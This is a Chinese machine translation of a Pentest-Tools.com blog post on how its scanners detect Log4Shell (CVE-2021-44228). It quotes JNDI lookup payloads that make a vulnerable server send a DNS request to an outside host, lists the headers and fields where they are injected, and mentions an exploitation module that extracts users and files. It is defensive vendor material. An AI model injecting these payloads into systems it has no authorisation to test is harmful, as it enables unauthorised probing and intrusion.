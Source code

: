 # 我们如何检测和利用 Log4Shell 来帮助您找到使用易受攻击的 Log4j 版本的目标| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/how-we-detect-log4shell>

我们正在分解我们检测 **CVE-2021-44228** ( [日志 4 外壳](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228))的技术，因为我们相信我们的用户应该了解扫描仪背后发生的事情，这样他们就可以避免错误的安全感。

在这种复杂的情况下，开诚布公、实事求是和分享知识是有帮助的，这样我们就可以尽最大努力管理风险。

已经有一篇[专门的 Log4Shell 文章](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228)详细描述了 Log4Shell 的漏洞，这里就不花太多时间了。然而，*我们的工具如何进行检测值得特别关注。*

*我们在[Pentest-Tools.com](https://pentest-tools.com/)用以下工具增加了针对此 Log4j 漏洞的检测功能:*

*这些扫描仪实现了我们下面描述的不同的检测技术。*

*我们还在我们的[狙击工具](https://pentest-tools.com/exploit-helpers/sniper)中增加了针对 Log4j 漏洞的攻击能力。*

## ***推荐的检测方法:使用网站扫描仪***

*我们建议使用网站扫描器作为 Log4Shell 的主要**检测**工具。原因如下。*

*扫描器使用＄{ JNDI:DNS://private-DNS-server/}这样的有效负载，并将它注入目标应用程序中的不同位置。如果应用易受攻击，它会向我们的一个私有 DNS 服务器(托管在我们的云环境中)发起 DNS 请求。*

*由于[网站扫描器](https://pentest-tools.com/website-vulnerability-scanning/website-scanner)实际上是一个成熟的 web 漏洞扫描器，它还对目标应用程序执行爬行，并对所有注入点进行索引。因此，Log4Shell 负载被注入到:*

*   *URL 基准*

*   *HTTP 标头(超过 50 个标头)*

*   *HTML 表单中的所有应用程序输入字段(如用户名、搜索等。)，它是通过抓取应用程序获得的。*

*![Log4j website scanner result pentest-tools.com](img/0712dfac13978070635fb059da87037f.png)*

*因为网站扫描器对目标应用有广泛的覆盖，我们相信它是对 Log4Shell 最有效的检测方法**。***

*尽管这种技术非常精确，但它有一个限制*

*   *我们的检测是同步的，这意味着扫描器预计易受攻击的应用程序会立即处理请求，并将 LDAP 请求发送到我们的服务器。但是，如果应用程序稍后调用 Log4j 功能(例如，几分钟后)，我们可能不会将其检测为易受攻击。*

## ***使用网络扫描仪检测日志 4 外壳***

*我们在[网络扫描器](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)中实现的定制检测模块有一种不同的方法来检测 Log4Shell。*

*扫描仪使用类似${jndi:dns:// **${hostName}的有效负载。** private-dns-server}并将其注入 URL 或自定义标头中。如果应用易受攻击，它会向我们的一个私有 DNS 服务器(托管在我们的云环境中)发起 DNS 请求。*

*![Log4j RCE detection](img/2daaa69fa9811f29e1e5eea3389ad11b.png)*

*网络扫描器不是将目标视为一般的 web 应用程序，而是在使用 Log4j 的特定或众所周知的应用程序中搜索漏洞，例如:*

*   *阿帕奇弗林克*

*   *阿帕奇雄猫*

*   *阿帕奇德鲁伊*

*   *Apache Struts2*

*   *阿帕奇索尔*

*   *VMware vCenter*

*   *移动加速器*

*   *弹性搜索*

*在这种情况下，扫描器不会对目标应用程序进行任何爬网，但它会将有效负载(类似于网站扫描器的)注入:*

*   *基本 URL*

*   *多个标题(与网站扫描仪相同)*

*   *特定的输入字段，取决于目标应用。*

*我们通过使用[Sniper Automatic Exploiter](https://pentest-tools.com/exploit-helpers/sniper)模块，使用网络扫描器实现了这种检测，当用户也想证明风险是真实的时，该模块将具有利用漏洞的额外能力。你将可以和狙击手单独进行*剥削*。*

*![Sniper exploitation summary](img/f8d0a8bb903415660219e844d64b68b4.png)*

*![local users found with Sniper](img/a452552e7856a572c717f478de39e9ed.png)*

*![files extracted with Sniper](img/ce225afcaf2c16553c8c5032a2fea9a3.png)*

## ***更快地运行聚焦扫描:使用专用的 Log4Shell pentest 机器人***

*为了帮助您更快地识别潜在问题，我们已经创建了一个随时可用的 [pentest 机器人](https://pentest-tools.com/features/pentest-robots)，它**使用网站扫描器专门扫描 log 4 shell***——带有一组预定义的选项。**

**正如你在下面看到的，这个机器人只启用了“Log4j 远程代码执行”攻击选项，使得这个扫描**比默认扫描**快得多。**

**![Website scanner attack options Pentest-tools.com](img/b84699c3f7638a43858a46d71c908c07.png)**

**只需将您的资产添加到**目标**页面，然后使用 **Log4Shell pentest robot** 扫描它们(您也可以[安排](https://pentest-tools.com/blog/november-updates-log4shell/#2_Automate_periodic_custom_testing_sequences_with_scheduled_pentest_robots)在需要时运行):**

**![Log4Shell pentest robot Pentest-tools.com](img/da9d7e63b466f82871b42ed5e19dadfd.png)**

**![log4shell website scanner result pentest-tools.com](img/cb56264dcc12df0f4ae003b94954618f.png)**

**使用这种专门的机器人有助于其他 pentesters 和我们，因为它减少了全扫描产生的负载。为此谢谢你！**

**了解您的工具在幕后做些什么非常重要，这样您就可以有力地保证您的安全状态是准确的。**

**虽然没有完美无缺的 Log4Shell 检测的完美解决方案，但是使用多种工具可以增加很好地解决问题的机会。**

**当我们在平台上推出新的更新时，我们会随时通知您！**